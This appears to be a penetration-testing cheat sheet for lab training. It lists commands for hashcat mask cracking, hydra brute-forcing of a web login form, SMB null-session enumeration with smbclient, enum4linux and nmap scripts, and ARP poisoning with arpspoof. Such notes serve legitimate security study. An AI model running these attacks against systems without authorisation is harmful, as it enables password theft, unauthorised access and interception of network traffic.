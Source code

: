 With mask for only passwords that have 3 lowercase letters followed by 2 numbers (from https://hashcat.net/wiki/doku.php?id=mask_attack)
```
hashcat -a3 -m1500 HASH ?l?l?l?d?d
```

### LOGIN BRUTEFORCING

**hydra**<br>
-l USERNAME<br>
-L USERNAME_FILE<br>
-p PASSWORD<br>
-P PASSSWORD_FILE<br>
-t THREADS<br>
http-post-form URL (^USER^ and ^PWD^ is where hydra will insert the values given)
```
hydra -l USERNAME -P PASSWORD_FILE PROTOCOL://IP http-post-form "/login.php:username=^USER^&password=^PWD^:Failed login" -t 30
```

### NULL SESSION ATTACK

**nmblookup**<br>
-A: lookup by ip

Display info about linux machine
```
nmblookup -A IP
```

**smbclient**<br>
-L: list shares<br>
-N: no password
```
smbclient -L //IP -N
```

To access share
```
smbclient //IP/SHARE -N
```

**enum4linux**<br>
-S: shares<br>
-U: users<br>
-P: password policy<br>
-A: fully enumerate<br>
-s SHARE_LIST (to bruteforce share discovery)
```
enum4linux -S demo.ine.local
enum4linux -U demo.ine.local
enum4linux -P demo.ine.local
```

**nmap**<br>
```
nmap IP --script=smb-enum-shares
nmap IP --script=smb-enum-users
```

### ARP POISONING

**arpspoof**<br>
-i INTERFACE<br>
-t TARGET_IP (machine to trick)<br>
-r HOST_IP (machine to impersonate)
```
arpspoof -i INTERFACE -t TARGET_IP -r HOST_IP
```